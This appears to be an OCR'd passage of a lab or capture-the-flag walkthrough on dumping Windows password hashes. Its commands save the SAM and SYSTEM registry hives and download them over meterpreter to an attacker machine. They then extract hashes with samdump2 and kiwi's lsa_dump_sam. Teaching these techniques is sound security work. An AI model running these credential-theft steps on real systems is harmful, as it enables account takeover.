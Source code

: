 ```bash
C:\Users\Administrator\Desktop>reg save HKLM\SAM C:\Users\Administrator\Desktop\SAM
...\Desktop>reg save HKLM\SYSTEM C:\Users\Administrator\Desktop\SYSTEM
```

With the registries save download the file to the attacker machine and
use samdump2 to recover the hashes

```bash
meterpreter> cd  'C:\Users\Administrator\Desktop'
> download SAM
> download SYSTEM
```

```bash
samdump2 SYSTEM SAM
```

It seems some users do not appear, only their hashes.
However, for that issue, you can query for users that are on the system.

You can dump credentials using kiwi, which is the equivalent of mimikatz.
To do that you'll need to load the module: `load kiwi`.
The command used to dump the SAM database hashes is: `lsa_dump_sam`

```bash
meterpreter> lsa_dump_sam
> getsystem
> lsa_dump_sam
```

There are more ways of dumping hashes and multiple tools and scripts
that can be used for this purpose.

Note: If planning to use the offline cracking method the passwords are contained
in the following wordlist from seclists:
100k-most-used-passwords-NCSC.txt (/usr/share/seclists/Passwords/Common-Credentials)

